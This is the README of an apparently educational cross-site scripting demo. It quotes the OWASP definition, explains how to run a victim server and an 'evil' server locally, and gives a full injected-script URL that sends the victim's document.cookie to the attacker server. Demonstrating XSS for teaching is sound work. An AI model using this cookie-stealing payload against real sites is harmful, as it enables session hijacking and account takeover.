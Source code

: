 # Cross-site scripting (XSS) attack demo

This quick implementation demonstrates Cross-site scripting (XSS) in action.

Definition from the OWASP [Cross Site Scripting Prevention Cheat Sheet][1]:

> Cross-Site Scripting (XSS) is a misnomer. Originally this term was derived from early versions of the attack that were primarily focused on stealing data cross-site. Since then, the term has widened to include injection of basically any content. XSS attacks are serious and can lead to account impersonation, observing user behavior, loading external content, stealing sensitive data, and more.

## Setup

Start the real server:

```
cd realserver

npm i
node app.js
```

In a new terminal session, start the evil server 👹:

```
cd evilserver

npm i
node evil.js
```

In a web browser, send the malicious request:

```
http://localhost:3000?txid=TX999<script>new Image().src=`http://localhost:3666/evil?cookie=${document.cookie}`</script>
```

The cookie information will be sent to the malicious destination.

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
